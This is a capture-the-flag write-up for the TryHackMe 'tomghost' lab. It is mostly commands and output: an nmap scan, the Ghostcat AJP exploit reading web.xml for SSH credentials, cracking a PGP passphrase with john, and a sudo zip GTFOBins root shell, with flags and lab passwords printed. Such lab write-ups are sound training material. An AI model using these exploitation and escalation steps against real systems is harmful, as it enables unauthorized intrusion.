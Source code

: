 ```yaml
---
title: "tomghost - TryHackMe"
author: Ludovic COULON
date: 2020-05-12
hero: ./images/hero.jpeg
excerpt: "Writeup for the tomghost challenge"
---
```


[TryHackMe | tomghost](https://tryhackme.com/room/tomghost)

<div className="Image__Medium">
  <img src="https://i.imgur.com/fR0jVuM.png" alt="blog_image" />
</div>

**Are you able to complete the challenge?**

The machine may a take up to 5 minutes to boot and configure.

### Setup

```bash
nmap -sV -sC -vv 10.10.68.237
```

```bash
Discovered open port 53/tcp on 10.10.68.237
Discovered open port 22/tcp on 10.10.68.237
Discovered open port 8080/tcp on 10.10.68.237
Discovered open port 8009/tcp on 10.10.68.237
```

```bash
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw

53/tcp   open  tcpwrapped syn-ack

8009/tcp open ajp13 syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open http syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After trying to exploit the Apache Tomcat, I realize that I was wrong about that, so I tried the other port 8009 Apache Jserv I search on github for one exploit and I found this.

[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://10.10.68.237:8080 8009 /WEB-INF/web.xml read
# URL:PORT + Jserv PORT + /WEB-INF/web.xml read
```

<div className="Image__Medium">
  <img src="https://imgur.com/FtZHUNJ.png" alt="blog_image" />
</div>

```bash
skyfuck:8730281lkjlkjdqlksalks
# Let's try to ssh this
```

<div className="Image__Medium">
  <img src="https://imgur.com/fsV6mGi.png" alt="blog_image" />
</div>

### #1 Compromise this machine and obtain user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/XCy6lRK.png" alt="blog_image" />
</div>

```bash
skyfuck@ubuntu:~$ cd /home
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{GhostCat_1s_so_cr4sy}
```

### #2 Escalate privileges and obtain root.txt

If you going back to the skyfuck's home directory you will see the "credential.pgp" "tryhackme.asc"

let's scp them to our machine to crack them.

```bash
➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/credential.pgp .
skyfuck@10.10.68.237 password:
credential.pgp

➜  TryHackMe scp skyfuck@10.10.68.237:/home/skyfuck/tryhackme.asc .
skyfuck@10.10.68.237 password:
tryhackme.asc
```

For this i'll use gpg2john

```bash
➜  TryHackMe sudo gpg2john tryhackme.asc > bopme

File tryhackme.asc
➜  TryHackMe cat bopme
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Now the fun part crack the gpg !

```bash
➜  TryHackMe sudo john bopme --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

"alexandru"        (tryhackme)

1g 0:00:00:00 DONE (2020-05-12 14:27) 10.00g/s 10720p/s 10720c/s 10720C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nice we have the password

```bash
alexandru
```

Now let's decrypt the pgp file, but first let's import the tryhackme.asc

```bash
➜  TryHackMe gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

# password => alexandru
```

```bash
➜  TryHackMe gpg --decrypt credential.pgp
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Nice we have the merlin's ssh password

<div className="Image__Medium">
  <img src="https://imgur.com/zrEzvSs.png" alt="blog_image" />
</div>

Let's root the machine !

[zip | GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt  ufw
$ cat root.txt
THM{Z1P_1S_FAKE}

```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
